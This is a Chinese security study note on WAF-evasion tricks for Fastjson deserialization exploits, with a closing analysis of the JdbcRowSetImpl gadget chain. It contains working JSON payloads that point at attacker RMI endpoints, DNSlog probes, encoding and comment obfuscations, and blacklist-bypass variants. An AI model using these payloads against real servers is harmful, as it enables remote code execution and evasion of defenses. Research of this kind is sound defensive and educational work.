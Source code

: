 
# Fastjson的Waf绕过

Fastjson算是RCE最常碰到的漏洞了，但是除了利用外对其知之甚少，因此学习一下，这里主要结合Y4tacker师傅的文章进行分析学习。

首先初始exp类似于这样：

[![OfYuUU.jpg](https://s1.ax1x.com/2022/05/16/OfYuUU.jpg)](https://imgtu.com/i/OfYuUU)

## 1.空白字符绕过

在键值对外添加空白字符时会被代码过滤，可用于绕waf

[![OfYZD0.jpg](https://s1.ax1x.com/2022/05/16/OfYZD0.jpg)](https://imgtu.com/i/OfYZD0)

Y4tacker师傅给出了fastjson自身过滤空白字符的代码

 - [ ] com.alibaba.fastjson.parser.JSONLexerBase#skipWhitespace
       
       public final void skipWhitespace()
       
       { while(true)
       
       { while(true)
       
       { if (this.ch <= '/')
       
       { if (this.ch == ' ' || this.ch == '\r' || this.ch == '\n' ||
       this.ch == '\t' || this.ch == '\f' || this.ch == '\b')
       
       { this.next(); continue; }
       
       if (this.ch == '/') {
       
       this.skipComment();
       
       continue; } }
       
       return; } } }

## 2.添加逗号

FastJson中有个默认的Feature是开启的 AllowArbitraryCommas ，这允许我们⽤多个逗号

还是师傅分析的

[![OfY6qP.png](https://s1.ax1x.com/2022/05/16/OfY6qP.png)](https://imgtu.com/i/OfY6qP)

添加的位置在键值对两边，在冒号两边添加会出错

[![OfYebV.jpg](https://s1.ax1x.com/2022/05/16/OfYebV.jpg)](https://imgtu.com/i/OfYebV)

## 3.字段名不加引号

默认开启的Feature， AllowUnQuotedFieldNames ，但是只在恢复字段的过程调⽤ 当中有效果

师傅分析的：

[![OfYfPg.png](https://s1.ax1x.com/2022/05/16/OfYfPg.png)](https://imgtu.com/i/OfYfPg)

> {"zeo":{"@type":"java.net.Inet4Address","val":"r.qsu9q8.ceye.io"}}
> 
> ||
> 
> \/
> 
> {"zeo":{"@type":"java.net.Inet4Address",val:"r.qsu9q8.ceye.io"}}

[![OfYZD0.jpg](https://s1.ax1x.com/2022/05/16/OfYZD0.jpg)](https://imgtu.com/i/OfYZD0)

## 4. @type后的值第⼀个引号可以替换为其他字符

[![OfYgVf.png](https://s1.ax1x.com/2022/05/16/OfYgVf.png)](https://imgtu.com/i/OfYgVf)

因此替换引号为任意字符即可正常执行

[![OfYVuq.jpg](https://s1.ax1x.com/2022/05/16/OfYVuq.jpg)](https://imgtu.com/i/OfYVuq)

## 5.编码绕过

⾸先在 com.alibaba.fastjson.parser.JSONLexerBase#scanSymbol ,当中可以看见， 如果遇到了 \u 或者 \x会有解码操作

[![OfYyrt.png](https://s1.ax1x.com/2022/05/16/OfYyrt.png)](https://imgtu.com/i/OfYyrt)

大致是u的情况为读取四个字符排列，以16进制转字符，至于为什么hash*31，是考虑了计算机的计算方法，参考[hashCode 为什么乘以 31?深入理解 hashCode 和 hash 算法_小七会喷火的博客-CSDN博客](https://blog.csdn.net/Javabaibai/article/details/112394217)

v的情况没法控制，不考虑；x的情况则是读取两个字符，计算16进制再转字符

 - [ ] 因此两种情况就是Unicode和ASCII值的转换：
       
       {"zeo":{"@type":"java.net.Inet4Address","val":"r.qsu9q8.ceye.io"}}
       
       {"\u0396eo":{"\x40type":"java.net.Inet4Address","val":"r.qsu9q8.ceye.io"}}

## 6. 对字段添加多个下划线或者减号

1.2.36版本前在 com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#parseFie ld 解析字段的key的时候，调⽤了 smartMatch

[![OfYDxA.png](https://s1.ax1x.com/2022/05/16/OfYDxA.png)](https://imgtu.com/i/OfYDxA)

> {"a": {"@type": "java.lang.Class","val":
> 
> "com.sun.rowset.JdbcRowSetImpl"},"b": {"@type":
> 
> "com.sun.rowset.JdbcRowSetImpl","d_a_taSourceName":
> 
> "rmi://127.0.0.1:1099/Exploit","autoCommit": true}}

1.2.36版本后相反会忽略“-”和"_"，因此利用方法类似

## 7. 属性前添加is

在那个基础上,还是在 smartMatch 当中可以看见，如果前缀有 is ，会去掉 is

[![OfYsKI.png](https://s1.ax1x.com/2022/05/16/OfYsKI.png)](https://imgtu.com/i/OfYsKI)

> {"a": {"@type": "java.lang.Class","val":
> 
> "com.sun.rowset.JdbcRowSetImpl"},"b": {"@type":
> 
> "com.sun.rowset.JdbcRowSetImpl","isdataSourceName":
> 
> "rmi://127.0.0.1:1099/Exploit","isautoCommit": true}}

## 8.注释

Y4tacker师傅给出的一种猜想，实际情况我暂时没有成功

com.alibaba.fastjson.parser.JSONLexerBase#nextToken()

解析时如果开头不为“{”或“[”时，进入nextToken()方法，

[![OfY2a8.png](https://s1.ax1x.com/2022/05/16/OfY2a8.png)](https://imgtu.com/i/OfY2a8)

[![OfYRIS.png](https://s1.ax1x.com/2022/05/16/OfYRIS.png)](https://imgtu.com/i/OfYRIS)

> /*\u001a{/*y4tacker*/"@type":"com.sun.rowset.JdbcRowSetImpl","dataSource
> Name":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}*/

其他的注释有：/**/和//，可以插入注释打乱Waf的正则

> {"zeo":{/_adawdawdaw_/"@type":"java.net.Inet4Address","val":"t2t.507a43c8.dns.1433.eu.org."}}

## 9.写在最后的分析

最后再分析几个fastjson的利用链

参考：[fastjson漏洞学习分析](https://www.jianshu.com/p/1ed027080459)

这里没有下载fastjson的包去断点调试，主要依靠文章分析一下

### JdbcRowSetImpl利用链

1.2.24版本：

DefaultJSONParser中，解析json开始，key为@type则加载对应class，autoCommit为true则调用this.connect，connect()方法进而继续建立dataSource去调用lookup()方法，此时请求到恶意的rmi服务通过lookup方法就实例化了这个恶意类

> { "@type":"com.sun.rowset.JdbcRowSetImpl",
> "dataSourceName":"rmi://ip:port/Exploit", "autoCommit":true }

补丁后的绕过：

> {"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://ip:port/Exploit"}}
> 使用不在黑名单的类进行绕过{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://ip:port/Exploit","autoCommit":true}使用L和;去匹配头尾规则绕过黑名单

1.2.47版本：

java.lang.Class开始，loadclass->val作为对象进行加载，加载com.sun.rowset.JdbcRowSetImpl类，loadclass函数中，当cache为true是，会将JdbcRowSetImpl类加载到map缓存中，到这第一个类加载结束。第二个类开始，class为空（不存在）时，会从mapping中去找。在第一个json数据处理后，JdbcRowSetImpl类已经被加载到map缓存，然后直接就返回class的类。

> { "a":{ "@type":"java.lang.Class",
> "val":"com.sun.rowset.JdbcRowSetImpl" }, "b":{
> "@type":"com.sun.rowset.JdbcRowSetImpl",
> "dataSourceName":"rmi://ip:9999/Test", "autoCommit":true } }
